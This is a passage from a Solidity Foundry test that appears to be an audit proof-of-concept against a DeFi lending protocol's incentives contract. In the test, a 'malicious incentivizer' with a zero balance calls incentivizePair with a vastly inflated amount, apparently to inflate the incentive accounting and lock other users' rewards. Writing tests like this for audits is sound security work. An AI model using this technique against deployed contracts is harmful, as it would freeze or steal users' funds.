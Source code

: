 ```solidity
            0,
            oraclesPrinciples,
            ratio,
            address(0x0),
            10e18
        );
        vm.stopPrank();

        vm.startPrank(lender);
        ZRXContract.approve(address(DLOFactoryContract), 10e18);
        address lendOrderAddress = DLOFactoryContract.createLendOrder(
            false,
            oraclesActivated,
            false,
            ltvs,
            1000,
            8640000,
            86400,
            acceptedCollaterals,
            ZRX,
            oraclesPrinciples,
            ratio,
            address(0x0),
            5e18
        );
        vm.stopPrank();

        LendOrder = DLOImplementation(lendOrderAddress);
        BorrowOrder = DBOImplementation(borrowOrderAddress);
    }

    function testLockedIncentives() public {
        address[] memory incentivePrinciples = allDynamicData.getDynamicAddressArray(1);
        address[] memory incentiveToken = allDynamicData.getDynamicAddressArray(1);
        bool[] memory isLend = allDynamicData.getDynamicBoolArray(1);
        uint[] memory amount = allDynamicData.getDynamicUintArray(1);
        uint[] memory epochs = allDynamicData.getDynamicUintArray(1);

        incentivePrinciples[0] = ZRX;
        incentiveToken[0] = ZRX;
        isLend[0] = true;
        amount[0] = 100e18;
        epochs[0] = 2;

        incentivesContract.whitelListCollateral(ZRX, AERO, true);

        // an incentivizer is incentivizing the principle using ZRX
        vm.startPrank(incentivizer);
        ZRXContract.approve(address(incentivesContract), 100e18);
        incentivesContract.incentivizePair(incentivePrinciples, incentiveToken, isLend, amount, epochs);
        vm.stopPrank();

        // a malicious incentivizer is inflating the incentive values
        vm.startPrank(maliciousIncentivizer);
        assertEq(ZRXContract.balanceOf(maliciousIncentivizer), 0);
        amount[0] = 10000000000000000e18;
        ZRXContract.approve(address(incentivesContract), 10000000000000000e18);
        incentivesContract.incentivizePair(incentivePrinciples, incentiveToken, isLend, amount, epochs);
        vm.stopPrank();

        address[] memory lendOrders = allDynamicData.getDynamicAddressArray(1);
```